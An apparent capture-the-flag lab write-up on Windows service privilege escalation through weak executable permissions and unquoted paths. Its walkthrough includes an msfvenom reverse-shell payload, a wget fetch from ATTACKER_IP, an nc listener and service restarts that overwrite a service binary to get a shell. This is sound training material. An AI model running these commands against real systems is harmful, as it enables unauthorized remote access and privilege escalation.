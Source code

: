 ```
Windows services are managed by the Service Control Manager (SCM), which controls service states and configurations. Each service has an associated executable and a user account it runs under. Services are configured in the Windows registry, and their executable path and associated account are specified there. Permissions for services are controlled via a Discretionary Access Control List (DACL), determining who can start, stop, or configure the service.

Insecure Permissions on Service Executables: If a service’s executable has weak permissions, attackers can replace it with malicious payloads, gaining privileges of the service’s account. An example using Splinterware System Scheduler showed how to exploit a service by overwriting its executable, causing the service to run malicious code.

Unquoted Service Paths: A vulnerability occurs when the service executable path is unquoted, allowing an attacker to insert their own executable before the intended one. If a service path has spaces but isn’t quoted, the SCM may misinterpret the command, potentially running an attacker’s executable instead. This can be exploited when services are installed in writable directories, allowing an attacker to place malicious executables in those locations.

Exploitation: In both scenarios, attackers create and place malicious executables on the target system, manipulate service configurations or permissions, and gain elevated access through service misconfigurations.

### Q.1: Get the flag on svcusr1’s desktop.
Once again, we can follow the steps from the covered theory: ```sc qc WindowsScheduler```

![Scheduled task](images/windows_scheduler_check.png)

The binary path is mentioned. Now we check the permissions: ```icacls C:\PROGRA~2\SYSTEM~1\WService.exe```

![cheacking permission](images/checking_permission.png)

The Everyone group has modify permissions (M) on the service’s executable. This means we can simply overwrite it with any payload of our preference, and the service will execute with privileges of the configured user account.
Now we need to fulfil the following tasks:
1. Create a reverse shell payload on the local machine: ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe```

![exploit](images/msfvenom_exploit.png)

2. Setup a Python web server at our local machine: ```python3 -m http.server```
3. Get the binary from the attacker machine into our target(thm lab): ```wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe```

![download the exploit](images/download_exe_file.png)

4.  On the target machine, rename the original binary, move the payload to its location and give the right permissions (making sure you are using Powershell):

![WService](images/wservice_binary.png)

5. On your attacker machine, setup a reverse listener: ```nc -lvnp 4445```
6.  On the target machine, startup the task:
```
sc stop windowsscheduler
sc start windowsscheduler
```
![startup task](images/sc_stop_start.png)

7. Startup a listener and receiving a shell:

![Receving shell](images/receving_shell.png)

```